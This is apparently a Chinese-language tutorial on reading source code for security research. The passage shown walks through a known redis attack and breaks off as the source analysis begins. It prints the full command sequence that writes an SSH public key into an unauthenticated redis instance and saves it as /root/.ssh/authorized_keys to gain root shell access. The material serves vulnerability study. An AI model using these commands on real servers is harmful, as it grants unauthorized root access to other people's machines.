 
读代码要带有目的去读,是要挖漏洞还是想要了解这个程序到在底干了些什么

要理解整体的时候,千万不要在某个细节里钻牛角尖

要一边理解细节一边挖洞的时候,记得要联想到所有可能的情况


## 必备工具

  Source Insight ,redis 源码,VS2017 ,Chakra 源码 ,Struts2 源码


## 从一个利用思路到源码层上的理解

  本节从一个redis 提权思路开始一步步分析,原文地址:https://www.huangdc.com/443 .这篇文章主要说的是,找到了未授权的redis 然后使用`config` 命令进行ssh key 的替换,使得攻击者可以使用ssh 免密码登陆的方式 直接getshell .我们看看文章里的关键部分

```bash

    [root@vm200-78 ~]# cat mypubkey.txt |redis-cli -h 192.168.203.224 -p 4700 -x set mypubkey
    OK
    [root@vm200-78 ~]# redis-cli -h 192.168.203.224 -p 4700
    redis 192.168.203.224:4700> config set dir /root/.ssh/
    OK
    redis 192.168.203.224:4700> config set dbfilename "authorized_keys"
    OK
    redis 192.168.203.224:4700> save
    OK
    redis 192.168.203.224:4700>

```

  把mypubkey.txt 的内容写入到了mypubkey 之后,然后使用`config set dir` 改变数据保存目录,再使用`config set dbfilename "authorized_keys"` 改变数据保存文件名,接下来使用`save` 进行数据保存,把ssh key 保存到/root/.ssh 中,下载好redis 的源码,我们来探索一下

  这个命令叫config ,那么我们到Github 上来搜索有config 的地方
